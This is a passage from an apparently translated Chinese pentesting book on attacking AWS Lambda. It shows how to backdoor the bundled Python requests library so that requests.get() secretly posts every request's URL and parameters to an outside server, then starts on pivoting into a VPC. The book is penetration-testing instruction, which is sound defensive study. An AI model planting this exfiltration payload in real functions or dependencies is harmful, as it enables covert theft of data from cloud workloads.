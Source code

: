 ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-aws-pentest-kali/img/0ed9d39c-4529-40a5-b318-752f416e69eb.png)

使用已包含请求库的示例 Lambda 函数

这个函数很短，所以在我们的攻击期间直接修改代码将对任何人都很明显，但因为它导入了`requests`库，而`requests`库源代码也在那里，所以那将是我们的目标。我们可以看到在第 4 行调用了`requests.get()`方法。如果我们在`requests`库的源代码中查找，我们可以找到`api.py`文件中的`requests.get()`方法，在此写作时位于第 63 行：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-aws-pentest-kali/img/292e3758-55b4-461a-b11a-ba9f58338ab2.png)

`requests.get()`方法的源代码

我们已经知道每次 Lambda 函数运行时都会调用这个方法，所以我们只需要直接修改它，而不是修改调用它的文件（`lambda_function.py`）。这次我们的负载需要有所不同，因为整个`requests`库并未直接导入到`requests`库的每个文件中，所以我们必须使用`"request"`方法，而不是`requests.post()`。我们的负载将如下所示：

```

try:
    data = {'url': url, 'params': params, **kwargs}
    requests('POST', 'http://1.1.1.1', json=data, timeout=0.01)
except:
pass
```

这个 payload 基本上只是在完成原始请求之前窃取到发送到我们自己服务器的每个请求的所有细节。我们可能能够截获一些敏感数据以利用我们自己的利益。我们可以将恶意的窃取 payload 直接放在`get`方法中，如下面的截图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-aws-pentest-kali/img/30132e26-f6ca-417a-99b1-593714e5a6e2.png)

我们的 payload 放置在 requests.get() 方法中

即使看起来有点奇怪，很少有开发人员会想要审查他们包含的库的源代码，即使他们这样做了，他们也没有编写该库，因此它们可能不会被他们认为是奇怪的。现在，每当这个 Lambda 函数被调用时，`requests.get()` 方法将被调用，这意味着我们的 payload 将被执行，我们将窃取一些数据：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-aws-pentest-kali/img/bb406a51-c093-499e-86a9-96ad2b3c23ec.png)

从 Python 依赖中成功窃取

我们现在已经成功地从一个 Lambda 函数中窃取了信息，而不需要修改主函数的任何实际代码。这种攻击可以深入多个层次。如果主 Lambda 函数需要库 X，而库 X 中的方法需要库 Y，那么你可以一直倒退到库 Y。没有限制，只要你的方法以某种方式被调用。

在真实的攻击场景中，你所需要做的就是像我们之前做的那样将 Lambda 函数导出为一个 `.zip` 文件，进行修改，然后将其重新上传为该函数的最新版本。即使防御者看到函数被修改了，他们仍然可能永远找不到你实施的后门。

# 进入虚拟专用云

我们已经涵盖了许多关于攻击 Lambda 函数的内容，但在本节中，我们将讨论从访问 Lambda 函数到访问**虚拟专用云**（**VPC**）内部网络的转变。这是可能的，因为 Lambda 函数可以出于各种原因启动到 VPC 中。这为我们攻击者提供了具有与 Lambda 访问权限的能力来与我们可能无法获得访问权限的内部主机和服务进行交互的能力。

再次，我们可以从两个不同的角度来解决这个问题。如果我们有所需的权限，我们可以将一个新的 Lambda 函数启动到我们选择的 VPC 中，或者我们可以修改已经启动到 VPC 中的 Lambda 函数的代码。我们将运行一个演示，在其中我们将编辑一个已经启动到 VPC 中的函数。

对于这个演示，如果我们查看 Lambda Web UI 中的网络选项卡，我们可以看到这个函数已经启动到默认的 VPC 中，它在两个子网中，并且它在安全组 `sg-0e9c3b71` 中。我们还可以看到安全组允许从某个 IP 地址对端口 80 进行入站访问，并允许从同一安全组内的服务器访问所有端口：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-aws-pentest-kali/img/379e712a-23b8-492e-9ac0-c9e9b00a778e.png)

